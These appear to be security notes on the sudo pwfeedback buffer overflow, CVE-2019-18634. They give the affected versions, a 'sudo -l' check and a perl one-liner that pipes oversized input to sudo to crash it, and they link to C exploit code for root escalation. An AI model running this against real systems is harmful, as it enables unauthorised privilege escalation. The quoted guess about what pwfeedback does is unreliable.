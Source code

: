 ```yaml
---
description: Sudo buffer overflow
---
```


# CVE 2019-18634 (Buf Overflow)

{% embed url="https://github.com/saleemrashid/sudo-cve-2019-18634" %}

{% embed url="https://www.sudo.ws/security/advisories/pwfeedback/" %}

#### Affected version of this vulnerability: Sudo versions 1.7.1 to 1.8.30

#### If pwfeedback is enabled in sudoers, the stack overflow may allow unprivileged users to escalate to the root account.

> If "pwfeedback" is being used in relation to `sudo`, it could potentially refer to some form of password feedback or interaction related to the password you enter when using `sudo`. This might involve providing visual cues or messages about the password's strength, validity, or other relevant information.

```bash
$ sudo -l
#    Matching Defaults entries for millert on linux-build:
#	insults, pwfeedback, mail_badpass, mailerpath=/usr/sbin/sendmail

#    User millert may run the following commands on linux-build:
#	(ALL : ALL) ALL

# Check if you see any password visual feedback like *****
$ su root 
$ sudo su root 

# Exploiting the bug does not require sudo permissions, merely that pwfeedback be enabled. 
# The bug can be reproduced by passing a large input to sudo via a pipe when it prompts for a password.

$ perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S id
#    Password: Segmentation fault
```

Or use a C code in [https://github.com/saleemrashid/sudo-cve-2019-18634](https://github.com/saleemrashid/sudo-cve-2019-18634)
